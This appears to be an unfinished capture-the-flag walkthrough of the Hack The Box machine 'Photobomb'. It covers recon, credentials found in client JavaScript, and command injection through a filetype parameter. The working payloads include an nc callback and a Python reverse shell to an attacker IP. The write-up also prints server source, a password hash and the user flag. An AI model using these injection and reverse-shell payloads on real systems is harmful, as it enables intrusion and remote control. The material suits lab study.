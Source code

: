 # [27 - Photobomb](https://app.hackthebox.com/machines/Photobomb)

![Photobomb.png](Photobomb.png)

## description
> 10.10.11.182

## walkthrough

### recon

```
$ nmap -sC -sV -A -Pn -p- photobomb.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-29 08:54 MDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ok, pretty standard.

### 80

> Welcome to your new Photobomb franshise!
> You will soon be making an amazing income selling premium photographic gifts.

> This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.

> To get started, please click here! (the credentials are in your welcome pack).

> If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.

[here](http://photobomb.htb/printer) is a link

and `photobomb.js` has the content
```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

ok, some creds - which get us to a gallery of some sort, allowing us to specify file type and size, and a link to download

which is actually a POST
```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png&dimensions=1000x1500
```

piping that through sqlmap, nothing popping.

gobuster
```
/favicon.ico          (Status: 200) [Size: 10990]
/printers             (Status: 401) [Size: 188]
/printer              (Status: 401) [Size: 188]
```

interesting, `printers` gives us

```
Sinatra doesn’t know this ditty.
Try this:

get '/printers' do
  "Hello World"
end
```

ohai ruby

```
Bad Request
bad URI `/]'.
WEBrick/1.6.0 (Ruby/2.7.0/2019-12-25) at photobomb:4567
```

wait webrick and sinatra?

POSTing `photo=../../../../../etc/passwd` gives `Invalid photo`

trying SSTI in file and dimensions lead to "Invalid <type>"

`http://photobomb.htb/ui_images/wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg` gives the thumbnail image

wrote [foo.rb](foo.rb) to pull all the thumbnails while waiting for gobuster to finish scanning that dir for anything else

```
$ find . -iname '*.jpg' -exec stegseek {} \;
...
```
nothing useful. same with strings


trying more injection in parameters we do control

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;nc%2010.10.14.5 4444&dimensions=30x20
```

led to

```
$ nc -lv 4444
Listening on 0.0.0.0 4444
Connection received on photobomb.htb 41866
```

boom baby.

took a couple tries, but with
```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;python3%20-c%20'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'&dimensions=30x20
```

got to
```
$ nc -lv 4444
Listening on 0.0.0.0 4444
Connection received on photobomb.htb 51706
/bin/sh: 0: can't access tty; job control turned off
$ id -a
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
$
```

### wizard

```
$ pwd
/home/wizard/photobomb
$ ls -la
total 40
drwxrwxr-x 6 wizard wizard 4096 Nov 12 21:42 .
drwxr-xr-x 7 wizard wizard 4096 Sep 16 15:14 ..
-rw-rw-r-- 1 wizard wizard   44 Sep 14 09:29 .htpasswd
drwxrwxr-x 2 wizard wizard 4096 Sep 16 15:14 log
-rwxrwxr-x 1 wizard wizard   85 Sep 14 09:29 photobomb.sh
drwxrwxr-x 3 wizard wizard 4096 Sep 16 15:14 public
drwxrwxr-x 2 wizard wizard 4096 Nov 12 21:45 resized_images
-rw-rw-r-- 1 wizard wizard 4428 Sep 14 12:40 server.rb
drwxrwxr-x 2 wizard wizard 4096 Sep 16 15:14 source_images
$ cat .htpasswd
pH0t0:$apr1$dnyF00ZD$9PifZwUxL/J0BCS/wTShU1

```

looking at `server.rb`:
```ruby
post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  # handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end

  if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end

  if !dimensions.match(/^[0-9]+x[0-9]+$/)
    halt 500, 'Invalid dimensions.'
  end

  case filetype
  when 'png'
    content_type 'image/png'
  when 'jpg'
    content_type 'image/jpeg'
  end

  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end

  if File.exists?('resized_images/' + filename)
    halt 200, {}, IO.read('resized_images/' + filename)
  end

  #message = 'Failed to generate a copy of ' + photo + ' resized to ' + dimensions + ' with filetype ' + filetype
  message = 'Failed to generate a copy of ' + photo
  halt 500, message
end
```

```
$ ls -la ../
total 44
drwxr-xr-x 7 wizard wizard 4096 Sep 16 15:14 .
drwxr-xr-x 3 root   root   4096 Sep 16 15:14 ..
lrwxrwxrwx 1 wizard wizard    9 Mar 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 wizard wizard  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 wizard wizard 3771 Feb 25  2020 .bashrc
drwx------ 2 wizard wizard 4096 Sep 16 15:14 .cache
drwxrwxr-x 4 wizard wizard 4096 Sep 16 15:14 .gem
drwx------ 3 wizard wizard 4096 Sep 16 15:14 .gnupg
drwxrwxr-x 3 wizard wizard 4096 Sep 16 15:14 .local
drwxrwxr-x 6 wizard wizard 4096 Nov 12 21:42 photobomb
-rw-r--r-- 1 wizard wizard  807 Feb 25  2020 .profile
-rw-r----- 1 root   wizard   33 Nov 12 20:52 user.txt
$ cat ../user.txt
204b628c44f7f32c5920cc4bdc369d62

```

### pivot


## flag
```
user:204b628c44f7f32c5920cc4bdc369d62
root:
```
